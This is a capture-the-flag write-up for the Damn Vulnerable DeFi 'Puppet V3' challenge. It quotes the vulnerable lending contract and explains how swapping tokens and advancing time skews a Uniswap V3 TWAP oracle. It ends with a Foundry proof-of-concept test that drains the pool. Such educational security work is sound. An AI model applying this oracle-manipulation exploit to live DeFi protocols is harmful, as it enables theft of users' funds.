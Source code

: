 ```yaml
---
title: Damn Vulnerably DeFi - Puppet V3 Solution 
date: "2023-03-21T23:46:37.121Z"
---
```

My solution for the challenge Puppet V3 & understanding **Uniswap V3** prices on a time weight average.

**First, lets discuss the key points to understand how to break this challenge:**

This challenge introduced Uniswap v3 prices calculation and how it now tracks prices at the end of a block. This removes the possibility of in-block price manipulations, (flashloan attacks) ;). And it does this by tracking observations, basically the last price event info.

Note: this challenge was a nice opportunity to contribute to the [Foundry version of the Damn Vulnerable Defi challenges](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry) originally created by the Open Zeppelin team. I have proposed my update to add this challenge in Foundry.
<br>
[<img src="./uniswapv3-devBook.png">](https://uniswapv3book.com/)

- Observations are slots that stores a recorded prices, timestamp, and activation flag.
- Cardinality, number of activated observations.
- TWAP are used mainly to support calculation of prices in periods where there were no observations.

## Puppet v3

[<img src="./puppetv3.png">](https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/)


**Now Let's take at the victim contract**
We have a pool where users can borrow its Token in exchange for providing 3 times WETH, the pool uses uniswapV3 TWA to fetch and calculate the token price with respect to eth based on the last observation.
`````
pragma solidity =0.7.6;

contract PuppetV3Pool {
    uint256 public constant DEPOSIT_FACTOR = 3;
    uint32 public constant TWAP_PERIOD = 10 minutes;

    IERC20Minimal public immutable weth;
    IERC20Minimal public immutable token;
    IUniswapV3Pool public immutable uniswapV3Pool;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositAmount, uint256 borrowAmount);

    constructor(IERC20Minimal _weth, IERC20Minimal _token, IUniswapV3Pool _uniswapV3Pool) {
        weth = _weth;
        token = _token;
        uniswapV3Pool = _uniswapV3Pool;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH.
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and the borrowed token have the same number of decimals.
     * @param borrowAmount amount of tokens the user intends to borrow
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);

        // Pull the WETH
        weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        TransferHelper.safeTransfer(address(token), msg.sender, borrowAmount);

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount);
    }

    function calculateDepositOfWETHRequired(uint256 amount) public view returns (uint256) {
        uint256 quote = _getOracleQuote(_toUint128(amount));
        return quote * DEPOSIT_FACTOR;
    }

    function _getOracleQuote(uint128 amount) private view returns (uint256) {
        (int24 arithmeticMeanTick,) = OracleLibrary.consult(address(uniswapV3Pool), TWAP_PERIOD);
        return OracleLibrary.getQuoteAtTick(
            arithmeticMeanTick,
            amount, // baseAmount
            address(token), // baseToken
            address(weth) // quoteToken
        );
    }

    function _toUint128(uint256 amount) private pure returns (uint128 n) {
        require(amount == (n = uint128(amount)));
    }
}
`````
**Validation Constraints**
- Block timestamp must not have changed too much, no more than 115 sec.
- Player has taken all tokens out of the pool


**Attack Brainstorm**

- Right away I saw the pragma version and think on overflow/underflow anything, but not so fast Tincho has protected well even its numbers down-casting with the last function of the contract.
- The borrow function seems simple and updates correctly before transfer out, so I won't spend much time trying to game this one.
- I see the hardcoded **TWA time 10** and seems suspicious to me, docs: `Number of seconds in the past to start calculating the time-weighted observation`
- Then the required eth calculation function is using the oracle, if we can someway get the oracle to return a very cheap price, the ETH can drain easily.
    - So we take a look at user inputs for these one and maybe the passing `type(uint256).max` can reset the price to zero. But the oracle will revert on underflow, so not here... :(
- Now, we could swap all of our DVT token for as much WETH token as possible
    - this swap will lower the pool's WETH reserves in comparison to the DVT, but the oracle is protected against same block manipulations, so we need another transaction that will use this last **observation** of the price.
    - Now, I remember that on the book it's mentioned that anyone can change the next cardinality of the observations, and since we know in this case we are the only ones trading in this pool, we might as well set the cardinality to take the next time only 2 observations.
    - `uniswapPool.increaseObservationCardinalityNext(2)` at the beginning of the challenge setUp we see that Tincho set this to 40 after init the pool.
    - If this works, we could bypass the TWA at which the contracts pull it's prices. So we must do a set of transactions within 10 minutes, or in other words we will simulate short-term volatility.
    - Ideally we could `warp` the vm or (increase block timestamp) with foundry to swap and fast forward within the next 100 sec, so the oracle will pick the last observation which left the price of the token at a very discount rate.


### POC Solution

For the complete set up and solution code please refer to my foundry repo [here](https://github.com/danielles0xG/damn-vulnerable-defi-foundry/blob/master/test/Levels/puppet-v3/PuppetV3.t.sol).
````
  function testExploit() public {
       
        // Swap all out dvt for as much weth possible
        dvt.approve(address(uniswapRouterAddress), type(uint256).max);
        ISwapRouter(uniswapRouterAddress).exactInputSingle(
            ISwapRouter.ExactInputSingleParams(
                address(dvt),
                address(weth),
                3000,
                address(attacker),
                block.timestamp,
                ATTACKER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
                0,
                0
            )
        );

        // fast forward 100 seconds
        vm.warp(block.timestamp + 100);
        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        weth.approve(address(lendingPool), quote);

        // Drain the pool
        lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        validation();
    }
````
Note that if we don't increase the timestamp the observation will remain in the first slot, meaning the 3x ratio price.

````
        uint256 quote1 = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote1); //   quote:  3000000000000000000000000

        vm.warp(block.timestamp + 100);

        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote); //    quote: 1135374091135900626
````

**Thanks and I hope you find value in this post.**


